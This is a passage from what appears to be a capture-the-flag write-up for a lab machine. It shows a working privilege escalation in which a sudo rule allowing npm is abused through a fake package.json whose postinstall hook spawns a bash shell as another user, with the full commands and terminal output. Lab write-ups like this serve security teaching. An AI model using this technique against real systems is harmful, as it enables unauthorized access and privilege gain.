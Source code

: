 
## 🧍 User Privilege Escalation

- Now flag action, first we need to escalate to user `serv-manage`.

  ```
  www@vulnnet-node:~/VulnNet-Node/node_modules$ sudo -l
  Matching Defaults entries for www on vulnnet-node:
      env_reset, mail_badpass,
      secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
  
  User www may run the following commands on vulnnet-node:
      (serv-manage) NOPASSWD: /usr/bin/npm
  ```
  
- You can use the exploit from GTFOBins, but this is how I did it. Create a new temporary directory with fake `package.json` file and then just run the `npm` binary. GTFOBins exploit does the same.

  ```
  mkdir /tmp/pwnnpm
  cd /tmp/pwnnpm
  cat > package.json << 'EOF'
  {
    "name": "pwn",
    "version": "1.0.0",
    "scripts": {
      "postinstall": "/bin/bash"
    }
  }
  EOF
  
  sudo -u serv-manage /usr/bin/npm install
  ```

  ```
  www@vulnnet-node:~/VulnNet-Node$ mkdir /tmp/pwnnpm
  www@vulnnet-node:~/VulnNet-Node$ cd /tmp/pwnnpm
  www@vulnnet-node:/tmp/pwnnpm$ cat > package.json << 'EOF'
  > {
  >   "name": "pwn",
  >   "version": "1.0.0",
  >   "scripts": {
  >     "postinstall": "/bin/bash"
  >   }
  > }
  > EOF
  www@vulnnet-node:/tmp/pwnnpm$ ls -al
  total 12
  drwxr-xr-x  2 www  www  4096 May 19 16:20 .
  drwxrwxrwt 10 root root 4096 May 19 16:20 ..
  -rw-r--r--  1 www  www    93 May 19 16:20 package.json
  
  www@vulnnet-node:/tmp/pwnnpm$ sudo -u serv-manage /usr/bin/npm install
  
  > pwn@1.0.0 postinstall /tmp/pwnnpm
  > /bin/bash
  
  serv-manage@vulnnet-node:/tmp/pwnnpm$ whoami
  serv-manage
  serv-manage@vulnnet-node:/tmp/pwnnpm$ id
  uid=1000(serv-manage) gid=1000(serv-manage) groups=1000(serv-manage)
  ```
  